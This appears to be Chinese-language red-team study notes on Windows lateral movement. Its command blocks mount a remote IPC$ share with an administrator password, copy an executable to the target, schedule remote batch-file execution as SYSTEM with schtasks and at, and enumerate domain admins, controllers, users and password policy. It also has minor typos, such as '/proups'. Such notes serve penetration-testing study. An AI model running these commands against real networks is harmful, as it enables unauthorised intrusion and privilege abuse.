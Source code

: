 - wmi是什么 ?
- 想成功利用wmi进行横向移动的前提条件又是什么 ?
- 如何利用win自带的wmic工具纯手工对目标windows机器进行各种远程操作
- 关于wmi在powershell下的一些常规应用
- 如何借助各种外部wmi工具更方便的实现远程执行及半交互式shell获取
- 基于wmi的跨平台横向移动
- 关于CobaltStrike以及msf自带的wmi横向功能模块利用

#### 计划任务利用

##### ipc

```
net use \\192.168.111.201\IPC$ /user:"administrator" "admin"
copy C:\Users\guanxingzhou\Desktop\putty.exe \\192.168.111.201\c$
```

##### schtasks

```
schtasks /create /s 192.168.0.70 /u Administrator /p admin /ru "SYSTEM" /tn CMDNAME /sc DAILY /st 22:18 /tr C:\\Users\\college\\Desktop\\sha\\cmd.bat /F
at
at \\192.168.3.102 19:30 /every:5,6,7,10,18,19,21,24,28 c:\windows\temp\cmd.bat

```

##### at

```
at \\192.168.3.102 19:30 /every:5,6,7,10,18,19,21,24,28 c:\windows\temp\cmd.bat
```

##  域内信息收集

### Windows认证

#### NTLM认证过程

#### Kerberos认证过程

### 域用户消息

```powershell
#查看当前用户及sid
whoami /user
#查看用户组
whoami /proups
#查看用户权限
whoami /priv

#查看域中用户组
net group /domain 
#获得域管理员
net group "domain admins" /domain
#获得域控制器列表
net group "domain controllers" /domain
#获得域成员计算机列表
net group "domain computers" /domain

#查看域中用户
net user /domain
#获得域密码策略设置,密码长短等
net accounts /domain
#列出或断开本机和连接的客户端会话
net session
```